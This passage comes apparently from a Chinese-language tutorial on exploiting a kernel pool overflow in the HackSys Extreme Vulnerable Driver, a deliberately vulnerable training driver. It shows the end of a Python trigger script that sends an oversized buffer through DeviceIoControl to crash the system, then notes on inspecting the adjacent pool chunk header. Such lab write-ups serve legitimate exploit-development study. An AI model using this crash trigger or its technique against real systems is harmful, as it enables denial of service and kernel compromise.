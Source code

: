 ```
    nOutBufferSize = 0x800

    lpBytesReturned = None

    lpOverlapped = None



    pwnd = DeviceIoControl(hDevice,

                                           dwIoControlCode,

                                           lpInBuffer,

                                           nInBufferSize,

                                           lpOutBuffer,

                                           nOutBufferSize,

                                           lpBytesReturned,

                                           lpOverlapped)

    if not pwnd:

        print "\t[-]Error: Not pwnd :(\n" + FormatError()

        sys.exit(-1)



if __name__ == "__main__":

    print "\n**HackSys Extreme Vulnerable Driver**"

    print "**pool overflow BSOD**\n"



    trigger(gethandle(), ctl_code(0x803))
```

将断点下在覆盖函数之前，查看当时内存池的情况：

[![](https://p2.ssl.qhimg.com/t0118ce5016432d8a98.png)](https://p2.ssl.qhimg.com/t0118ce5016432d8a98.png)

可以看到在当前堆块偏移504的地方既是下一堆块的头结构，此时该地址的内存为

[![](https://p4.ssl.qhimg.com/t019c8cafb95aef58e4.png)](https://p4.ssl.qhimg.com/t019c8cafb95aef58e4.png)
